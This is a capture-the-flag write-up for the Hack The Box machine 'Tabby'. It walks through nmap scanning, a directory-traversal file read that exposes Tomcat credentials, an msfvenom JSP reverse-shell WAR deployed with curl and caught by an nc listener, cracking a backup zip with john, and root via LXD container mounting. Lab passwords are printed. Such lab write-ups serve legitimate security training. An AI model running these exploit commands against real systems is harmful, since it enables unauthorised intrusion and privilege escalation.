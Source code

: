 ```yaml
---
image: /assets/avatars/tabby.png
author: Valerio Casalino
title: Tabby Writeup
style: fill
color: light
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/tabby.png"> Writeup for Tabby (Hackthebox)
---
```


# Tabby

As always let's start with an `nmap` to get open ports.

![image-20201022115235445]({{ site.url }}/assets/tabby/image-20201022115235445.png)

And we got this result:

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux;protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

At this point, before starting any automated enumeration, we should take a look at the websites on port 80 and on port 8080.

![image-20201022115744210]({{ site.url }}/assets/tabby/image-20201022115744210.png)

On port 80 we can immediately see an email, which gives us a domain name. It is not really important for this machine, but a good practice in cases like this is to check for virtual hosts by adding the domain to the hosts file:

```bash
echo "\n10.10.10.194\t\tmegahosting.htb www.megahosting.htb\n" | sudo tee -a /etc/hosts
```

So, after this edit, we can connect to megahosting.htb and start looking around, until we find a curious way to include content in the news page:

```
http://megahosting.htb/news.php?file=statement
```

We can modify the request with `burp`, but seems a little overkill for this task, so we can try to trigger a directory traversal with a simple `curl` first (assuming the website is placed in `/var/www/../something`):

```bash
curl "http://www.megahosting.htb/news.php?file=../../../../etc/passwd"
```

![image-20201022131328944]({{ site.url }}/assets/tabby/image-20201022131328944.png)

We discovered the user `ash`, but, more importantly, that this location is vulnerable to a bad file inclusion that we can exploit later.

To take advantage of this vulnerability, we have to check port 8080.

![image-20201022131529012]({{ site.url }}/assets/tabby/image-20201022131529012.png)

Which gives us the initial page of tomcat and the CATALINA_HOME, in which a file named `tomcat-users.xml` contains the credentials for tomcat. The info can be retrieved with a simple Google search, [here](https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory) is the link to the article I found.

If we trigger the file inclusion on port 80 to get that file we have:

![image-20201022131953473]({{ site.url }}/assets/tabby/image-20201022131953473.png)

So we got tomcat's credentials: `tomcat:$3cureP4s5w0rd123!`.

After a little research on how to upload a `.war` file ([WAR (file format)](https://en.wikipedia.org/wiki/WAR_(file_format))), I found [this answer](https://stackoverflow.com/a/52386613) on StackOverflow, and I did made exactly that.

```bash
# First, create the war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -f war > shell.war
# Then upload it using tomcat's creds
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/lolz&update=true'
# Get ready for the reverse shell
nc -lvvp 9001
```

Now, if we go to `http://megahosting.htb:8080/lolz`, we'll trigger the reverse shell!

![image-20201022133127965]({{ site.url }}/assets/tabby/image-20201022133127965.png)

At this point, with some enumeration, we can find a backup file:

![image-20201022133555734]({{ site.url }}/assets/tabby/image-20201022133555734.png)

(I just used `find` to find all the files in the system that I could read, but that were owned by `ash`)

Let's get this backup.

```bash
wget "http://www.megahosting.htb/news.php?file=../../../../var/www/html/files/16162020_backup.zip" -O backup.zip
```

The zip file is password protected, so we'll use `john` to find it.

![image-20201022134232933]({{ site.url }}/assets/tabby/image-20201022134232933.png)

At this point, the only thing left to do is let `john` do its magic:

```bash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt for_john.txt
```

Then we get the password of the archive, which is the same as `ash`'s account, so we obtained user's credentials: `ash:admin@it`.

So, we can switch user into the box:

![image-20201022191319438]({{ site.url }}/assets/tabby/image-20201022191319438.png)

For my comfort I'll suggest to [put a pubkey](https://www.ssh.com/ssh/keygen/) into `ash`'s `~/.ssh/authorized_hosts`, or [upgrade your shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but everything will work anyway. Go in the home directory and get the flag.

Running `id`, we discovered that the user is in the `lxd`  group, so he's able to create containers and running them as `root`. If we mount the root partition inside the container we can basically be root in the box. Documentation of LXD [here](https://linuxcontainers.org/lxd/docs/master/). 

First, you have to get a container image from the [web repository](https://images.linuxcontainers.org/images/) and transfer it to the box:

```bash
# Locally
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
mv alpine-* alpine.tar.gz
python3 -m http.server
# On Tabby
a=$(mktemp -d)
cd $a
wget "http://10.10.14.51:8000/alpine.tar.gz"
lxc image import ./alpine.tar.gz --alias lolz-image
```

To run the privilege escalation you have to:

```bash
# Initialize the container and make it accessible as root
lxc init lolz-image lolz -c security.privileged=true
# Mount the root partition (/) where you want
lxc config device add lolz lolz-image disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start lolz
# Get a shell inside of it
lxc exec lolz /bin/sh
```

... profit.

![image-20201022194855232]({{ site.url }}/assets/tabby/image-20201022194855232.png)

